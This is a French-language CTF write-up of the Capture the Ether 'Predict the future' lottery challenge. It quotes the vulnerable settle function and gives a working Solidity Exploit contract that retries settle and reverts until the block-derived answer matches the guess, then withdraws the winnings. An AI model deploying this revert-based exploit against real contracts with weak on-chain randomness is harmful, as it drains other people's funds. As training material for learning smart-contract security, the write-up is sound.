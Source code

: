 # Predict the future

## Intitulé 

[Url du challenge](https://capturetheether.com/challenges/lotteries/predict-the-future/)

> This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.
> 
> Note that it is indeed possible to solve this challenge without losing any ether.

## Solution

Dans ce challenge, il faut vérouiller une proposition avec `lockInGuess`, et ensuite tester si elle est juste avec `settle`. Regardons le fonction `settle` de plus près :

```solidity

function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
}
```

`answer` est un hash modulo 10, ce qui veut dire que les solutions sont comprises dans [0,9]. Nous allons utiliser ici une propriété importante dans solidity : les `require`. Ils permettent d'annuler complètement une transaction si certaines conditions ne sont pas respectés. Le gas est perdu, mais l'état de notre smart contract reste inchangé.

Ouvrons [Remix](https://remix.ethereum.org/) et créons un smart contract qui vas réaliser notre challenge.

```solidity

contract Exploit {

    // on propose 0 comme solution
    function propose(PredictTheFutureChallenge challenge) external payable {
        require(msg.value == 1 ether);
        challenge.lockInGuess.value(1 ether)(0);
    }

    function attack(PredictTheFutureChallenge challenge) external payable {
        // on essaie de résoudre le challenge
        challenge.settle();

        // si le challenge n'est pas résolu, on annule la transaction
        require(challenge.isComplete());
    }

    // pour accepter les eth, sans cette fonction, on aurait un revert en réussissant le challenge
    function() external payable {}

    // pour withdraw
    function withdraw() external {
        msg.sender.transfer(2 ether);
    }
}
```

Dans le même fichier solidity, copier les 2 contrats à la suite (Challenge.sol et l'Exploit). Compiler et lancer la fonction  `propose` puis `attack` avec comme argument l'addresse du challenge. Si la transaction échoue, alors challenge n'a pas été résolu, il faut relancer la fonction `attack`.

Penser à utiliser la fonction `withdraw` pour récupérer vos fonds. Il ne reste qu'à valider le challenge !